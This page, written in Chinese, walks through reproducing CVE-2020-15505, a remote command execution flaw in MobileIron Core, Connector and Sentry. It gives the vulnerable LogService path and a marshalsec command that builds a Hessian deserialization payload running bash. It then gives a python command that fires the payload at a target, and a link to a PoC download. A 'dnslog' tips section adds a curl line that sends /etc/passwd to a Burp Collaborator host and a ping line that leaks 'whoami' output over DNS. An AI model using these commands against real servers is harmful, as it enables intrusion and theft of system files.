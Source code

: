 （CVE-2020-15505）MobileIron 远程命令执行漏洞
=============================================

一、漏洞简介
------------

MobileIron Sentry等都是美国思可信（MobileIron）公司的产品。MobileIron
Sentry是一款智能网关产品。MobileIron
Core是一款MobileIron平台的管理控制台组件。MobileIron
Connector是一款MobileIron平台的连接器组件。 MobileIron Core
10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本中存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。

二、漏洞影响
------------

MobileIron Core 10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本

三、复现过程
------------

访问`https://www.0-sec.org/mifs/.;/services/LogService`

![5.png](resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId24.png)

确认存在该漏洞位置连接。

在vps执行

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian Groovy "/bin/bash" "-c" "<Command>" > exp.ser

![1.png](resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId25.png)

然后再执行

    python hessian.py -u 'https://target.0-sec.org/mifs/.;/services/LogService' -p exp.ser

![2.png](resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId26.png)

**dnslog 使用姿势补充**

    curl http://xxxxx.burpcollaborator.net -F "file=@/etc/passwd;"

    ping `whoami`.xxx.dnslog.cn"

![3.png](resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId27.png)

### poc

> https://download.0-sec.org/Web安全/MobileIron/CVE-2020-15505.zip

参考链接
--------

> https://github.com/iamnoooob/CVE-Reverse
